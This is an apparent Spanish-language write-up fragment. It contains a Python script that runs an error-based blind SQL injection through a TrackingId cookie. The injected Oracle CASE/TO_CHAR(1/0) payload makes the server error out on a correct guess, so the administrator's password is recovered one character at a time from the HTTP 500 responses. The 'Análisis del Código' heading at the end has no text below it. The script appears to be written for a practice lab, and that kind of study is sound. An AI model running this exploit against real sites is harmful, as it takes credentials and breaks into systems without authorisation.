 ```python
#!/usr/bin/env python3
from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#ctrl + C
signal.signal(signal.SIGINT, def_handler)

page_url = input("Ingrese la url: ")
caracteres = str(string.digits + string.ascii_lowercase + string.ascii_uppercase) #todos los caracteres
cookie = input("Ingrese la cookie: ")
sessionHash = input("Ingrese el hash de session: ")

def makeRequest():
    password = ''

    p1 = log.progress("")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    progressPass = log.progress('Password')

    for posicion in range(1,21): #1..20
        for caracter in caracteres:
            cookies = {
                'TrackingId': "%s'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' AND SUBSTR(password,%d,1)='%s')-- -" % (cookie,posicion,caracter),
                'session': sessionHash
            }

            r=requests.get(url=page_url, cookies=cookies)

            if r.status_code == 500: # Código de estado 500, caracter correcto
                password += caracter
                progressPass.status(password)
                break


if __name__ == '__main__':
    makeRequest()
```

## Análisis del Código
